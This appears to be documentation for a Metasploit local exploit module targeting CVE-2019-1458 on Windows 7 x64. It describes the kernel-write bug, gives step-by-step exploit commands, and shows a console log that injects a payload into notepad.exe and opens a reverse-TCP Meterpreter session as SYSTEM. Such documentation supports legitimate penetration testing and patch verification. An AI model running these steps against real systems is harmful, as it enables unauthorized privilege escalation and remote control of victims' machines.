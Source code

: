 ## Vulnerable Application

This module exploits CVE-2019-1458, a bug that occurs because a field within the tagSERVERINFO structure
at *(gpsi+0x154) was uninitialized, which allowed user mode attackers to set extra window data pointer in a
task switch window (designated by the FNID_SWITCH window class), which would otherwise only be able to be
set by the kernel. By setting this extra window data pointer, an attacker can write a limited amount of data
to an arbitrary kernel address in memory, thus providing them with an arbitrary kernel write primitive than can
be used to elevate privileges to SYSTEM.

This module has been tested against Windows 7 x64 SP1. Offsets
within the solution may need to be adjusted to work with other versions
of Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 x64
1. `use exploit/windows/local/ntusermessagecall`
1. `set session <session>`
1. `set payload windows/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP1 x64

```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x64/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.6:49157 (192.168.56.6)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermessagecall
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermessagecall) > set session 1
session => 1
msf5 exploit(windows/local/ntusermessagecall) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermessagecall) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermessagecall) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermessagecall) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 1808 launched.
[*] Injecting exploit into 1808 ...
[*] Exploit injected. Injecting payload into 1808...
[*] Payload injected. Executing exploit...
[*] Sending stage (201283 bytes) to 192.168.56.6
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.6:49158) at 2020-07-10 17:10:54 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
